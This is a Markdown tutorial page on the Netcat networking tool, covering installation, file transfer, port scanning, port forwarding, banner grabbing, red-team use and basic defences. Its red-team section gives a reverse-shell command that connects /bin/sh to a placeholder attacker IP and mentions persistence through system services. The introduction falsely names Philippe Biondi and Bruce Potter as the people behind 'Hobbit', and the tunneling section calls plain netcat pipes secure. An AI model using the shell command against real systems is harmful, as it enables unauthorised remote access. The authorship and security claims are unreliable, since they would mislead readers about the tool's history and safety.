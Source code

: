 ```yaml
---
title: 'Netcat: The Essential Networking Tool for Cybersecurity'
description: Discover Netcat, a versatile network tool for data transfer, port scanning,
  and exploitation in cybersecurity. Learn its features and applications.
keywords:
- Netcat
- networking tool
- cybersecurity
- port scanning
- data transfer
- reverse shell
- bind shell
- banner grabbing
- network security
- Ncat
---
```


# Netcat: A Comprehensive Guide

## Introduction to Netcat

Netcat is a versatile networking tool that can be used for debugging and investigating the network. It can manipulate and read data from network connections using TCP or UDP protocols. Often referred to as the "Swiss Army knife" of networking, Netcat has become an essential tool for network administrators, ethical hackers, and cybersecurity professionals.

Netcat was originally developed by Hobbit (Philippe Biondi and Bruce Potter), and has since evolved into several versions with enhanced functionalities. Its widespread use in various network tasks, such as file transfers, port scanning, and server setup, underscores its importance in both offensive and defensive cybersecurity strategies.

## Installing and Setting Up Netcat

### Platform-Specific Installations

**Linux:** On most Linux distributions, Netcat can be installed via package managers. For Debian-based systems, use `apt-get install netcat`. On Red Hat-based systems, use `yum install nc`.

**Windows:** Windows users can download Netcat from repositories such as `nmap.org` or pre-compiled binary websites. It's often packaged with Cygwin for command-line functionality.

**macOS:** Netcat is typically pre-installed on macOS. However, users might opt for versions with additional features via Homebrew with `brew install netcat`.

### Basic Setup and Configuration

After installation, verify Netcat's presence by running `nc -h` or `netcat -h` in the terminal, which should display help and usage instructions. Basic configurations often include setting environment variables to facilitate easy command-line access.

## Basic Netcat Operations

### Simple Connection Handling

In client mode, Netcat can initiate a connection to a server. For example, `nc host.example.com 80` connects to an HTTP server on port 80. The connection in listening mode turns Netcat into a simple server: `nc -l 1234` listens for incoming connections on port 1234.

### Transferring Data

Netcat can transfer files between devices seamlessly. Use `nc -l -p 1234 > outputfile` on the receiving end, and `nc host_IP 1234 < inputfile` on the sender's side. This capability is particularly useful for quickly moving files in a networked environment.

## Netcat for Network Scanning

### Basic Port Scanning Techniques

Port scanning with Netcat involves understanding port states—open, closed, and filtered. Use `nc -zv host.example.com 20-80` to conduct a quick scan over a specific range of ports, where `-z` ensures no data is sent over the connection.

### Advanced Port Scanning Modes

More advanced modes include using Netcat for stealthy network reconnaissance. Combining Netcat with Nmap, users can leverage Nmap's thorough scanning capabilities while using Netcat's ability to create raw network connections for detailed feedback.

## Utilizing Netcat for Port Forwarding and Tunneling

### Port Forwarding Basics

Port forwarding involves rerouting data meant for a particular IP address and port. Netcat can perform this by capturing inputs from a local port and redirecting them to an external IP: `nc -l 1234 | nc remote.com 5678`.

### Tunneling Methods

With tunneling, a user creates secure pathways for data to traverse the network. Netcat can create rudimentary tunnels by linking inputs and outputs securely: `nc -l 2000 | ssh -q user@remote nc remote.com 3000`.

## Using Netcat for Banner Grabbing

### Understanding Banner Grabbing

Banner grabbing aims to collect information about systems and services, identifying software versions or configurations. This is important for vulnerability assessments. Netcat assists by directly connecting and recording server responses.

### Performing Banner Grabs

Execute `nc host.example.com 80` and send a simple HTTP request. The server's response provides details on the software and its version. This information can highlight potential vulnerabilities or weaknesses in server configurations.

## Exploiting Netcat for Red Team Operations

### Reverse Shells and Bind Shells

Reverse shells and bind shells are pivotal in remote system access. A bind shell opens ports for incoming connections, while a reverse shell connects back to the attacker's IP. Using Netcat, reverse shells can be created using `nc -e /bin/sh attacker_IP 4444`.

### Persistence and Post-Exploitation

For maintaining remote access, automated scripts can re-establish dropped connections or integrate Netcat with system services for continuous monitoring. This ensures ongoing system access during prolonged operations.

## Securing Against Netcat Exploitation

### Defensive Techniques

Detecting and halting unauthorized Netcat activities involves firewalls and Intrusion Detection/Prevention Systems (IDS/IPS). Policies blocking unused ports effectively mitigate Netcat-based exploits.

### Hardening Systems

System hardening may include auditing network utilities regularly, implementing strong authentication, and educating users on security practices. Monitoring tools help flag suspicious Netcat activities upon occurrence.

## Netcat Variations and Alternatives

### Enhanced Netcat Versions

Enhanced iterations like Ncat or Socat offer extended features like SSL support or multiplexer capabilities. Ncat, for example, from the Nmap family, includes advanced scripting and encryption features that enhance its utility.

### Integrating with Other Tools

Netcat's utility maximizes when combined with scripting languages like Python or Bash, automating network tasks or creating elaborate data manipulation pipelines. It's especially effective when synergized with a broader suite of network tools.

Through a structured exploration of Netcat, from basic operations to advanced networking tasks, users can enhance their capability in network diagnostics and cybersecurity operations.